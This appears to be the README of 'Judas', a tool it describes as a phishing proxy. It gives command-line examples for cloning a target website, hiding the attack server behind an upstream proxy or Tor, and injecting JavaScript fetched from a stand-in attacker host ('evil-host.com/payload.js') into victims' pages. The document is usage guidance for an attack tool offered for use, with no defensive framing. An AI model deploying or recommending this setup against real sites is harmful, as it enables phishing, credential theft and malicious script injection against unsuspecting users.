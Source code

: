 Judas
=====
Judas is a phishing proxy.
It can clone a website passed to it using command line flags.

Usage
-----
The target ```--target``` flag is required.
By default, Judas requires a path to a SSL certificate (```--cert```) and a SSL private key (```--private-key```).
If you want to listen using HTTP, pass the ```--insecure``` flag.

Example:
```
./proxy --target https://target-url.com
```

It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.

Example:
```
./proxy --target https://torwebsite.onion --proxy localhost:9150
```

By default, Judas listens on localhost:8080.
To change this, use the ```--address``` argument.

Example:
```
./proxy --target https://target-url.com --address=0.0.0.0:8080
```

Judas can also inject custom JavaScript into requests by passing a URL to a JS file with the ```--inject-js``` argument.

Example:
```
./proxy --target https://target-url.com --inject-js https://evil-host.com/payload.js
```